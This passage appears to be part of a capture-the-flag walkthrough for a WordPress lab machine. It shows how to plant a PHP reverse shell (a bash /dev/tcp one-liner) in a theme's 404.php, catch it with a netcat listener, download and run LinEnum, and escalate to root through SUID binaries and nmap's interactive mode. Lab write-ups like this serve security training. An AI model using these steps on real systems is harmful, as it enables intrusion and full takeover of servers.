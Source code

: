 # 6. Gaining Access Through WordPress
Once you’ve logged in as **Elliot** via `http://<Target_IP>/wp-login.php`, you have control over the WordPress site. Your next goal is to upload a **reverse shell** and gain access to the underlying system.

### Uploading a Reverse Shell:
Go to **Appearance > Theme Editor**, and select the `404.php` file. Replace its content with **Pentestmonkey’s PHP reverse shell**: [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

```console
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<Your_IP>/<Your_Port> 0>&1'");
?>
```



Insert your local machine's IP address and the port you want to listen on.

# Netcat Listener:
On your machine, set up a listener with **Netcat**:

```console
nc -lvnp <Your_Port>
```

# Trigger the Reverse Shell:
Visit the following URL to execute the reverse shell:
```console
http://<Target_IP>/wp-content/themes/<theme>/404.php
```

This will establish a connection between the target and your local machine.


# 7. Privilege Escalation
Now that you have a shell, you need to escalate your privileges from a low-level user to **root**.

### System Enumeration:
Check system information and identify potential privilege escalation vectors:
```console
whoami        # Check current user
hostname      # System name
uname -a      # Kernel version
``` 
### Using LinEnum or LinPEAS:
You can automate the privilege escalation enumeration process using tools like **LinEnum** or **LinPEAS**:
```console
wget http://<URL_to_LinEnum>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
### Escalating with SUID Binaries:
Check for binaries with the SUID bit set (which run as root even if you're a regular user):
```console
find / -perm -u=s -type f 2>/dev/null
```
If **nmap** has the SUID bit set, you can use its interactive mode to escalate privileges:
```console
nmap --interactive
```